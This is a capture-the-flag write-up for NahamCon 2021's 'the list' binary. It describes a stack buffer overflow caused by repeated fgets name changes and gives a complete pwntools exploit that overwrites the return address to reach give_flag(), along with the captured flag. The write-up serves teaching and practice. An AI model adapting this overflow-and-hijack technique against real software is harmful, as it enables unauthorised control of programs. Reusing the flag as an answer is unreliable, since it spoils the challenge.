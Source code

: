 ```yaml
---
title: the list?
date: 2021-03-13
categories: [pwn]
tags: [nahamconctf]
toc: false
---
```


```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
```

#### Notes:
- This program lets you add/delete/change a user on the stack
- When adding a user, you can only add 0x19 bytes
- Deleting a user zeroes out the index you choose, up to 0x20 bytes
- The vulnerability here is when you change a user's name, in fgets()
- fgets(buffer, 0x50, stdin) is vulnerable here because you can overflow the stack by adding a user (0x19) and then changing their name (0x49) repetitively
- So we want to continue doing this until we get control of rip and then return to give_flag() (which just prints out the flag)

#### Main program snippet:

![Snippet of chall](/assets/img/nahamcon2021/screenshot1.png)

#### Vulnerable snippet:

![Snippet of vuln](/assets/img/nahamcon2021/screenshot2.png)

#### PoC:

- By repeating the process of adding a user and changing their name, we eventually reach rip and change the program to return to give_flag()

```Python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template the_list
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('the_list')

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x401a0f
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def add_user(io, data):
    io.sendlineafter('> ', '2')
    io.sendlineafter('name: ', data)

def change_name(io, user_index, data):
    io.sendlineafter('> ', '4')
    io.sendlineafter('change? ', user_index)
    io.sendlineafter('name? ', data)

def delete_user(io, user_index, data):
    io.sendlineafter('> ', '3')
    io.sendlineafter('delete? ', user_index)

def exit_program(io):
    io.sendlineafter('> ', '5')

#io = start()
io = remote('challenge.nahamcon.com', 31980)

io.sendlineafter('Enter your name: ', 'lmao')

junk1 = b'A'*0x19
junk2 = b'B'*0x49
payload = b'C'*8 + p64(0x401369) # give_flag()

add_user(io, junk1)
change_name(io, '1', junk2)

add_user(io, junk1)
change_name(io, '4', junk2)

add_user(io, junk1)
change_name(io, '7', junk2)

add_user(io, junk1)
change_name(io, '10', junk2)

add_user(io, junk1)
change_name(io, '13', junk2)

add_user(io, junk1)
change_name(io, '16', junk2)

add_user(io, payload)

exit_program(io)

io.interactive()

# flag{0eb219803dbfcda8620dae0772ae2d72}

```